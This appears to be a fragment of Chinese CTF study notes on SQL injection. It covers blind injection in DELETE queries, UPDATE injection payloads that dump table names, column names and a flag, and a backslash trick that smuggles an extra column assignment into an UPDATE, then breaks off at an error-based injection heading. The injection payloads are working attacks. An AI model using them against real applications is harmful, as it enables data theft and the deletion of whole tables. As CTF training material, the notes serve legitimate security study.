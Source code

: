 ## delete注入

盲注

```sql
0||if(substr((select flag from flag),{i},1)="{j}",sleep(1),0)
```

delete注入容易把一张表全部删除

```sql
delete from some_table where id = 1 or 1;
```

如上，当where后面的值为True时，会删除整张表

应该加一个`and sleep(1)`确保返回为假

```sql
delete from some_table where id = 1 and sleep(1);
```

然后再考虑盲注

## update注入

```sql
#获取所有表名
password=',username=(select  group_concat(table_name) from information_schema.tables where table_schema=database())%23&username=1

#获取所有列名
password=',username=(select  group_concat(column_name) from information_schema.columns where table_name='flaga')%23&username=1

#获取flag
password=',username=(select  group_concat(flagas) from flaga)%23&username=1
```

update之前，还对password字段进行了处理，不能传入单引号，不过可以传入\

```sql
update ctfshow_user set password = '{$password}' where username = '{$username}'
```

假设我们password传入`\`，username传入`,username=database()#`
那么最终构成的语句如下

```sql
update ctfshow_user set pass = '\' where username = ',username=database()#'
等价于
update ctfshow_user set pass = '...',username=database()#'
```

## 报错注入

**1.floor()**
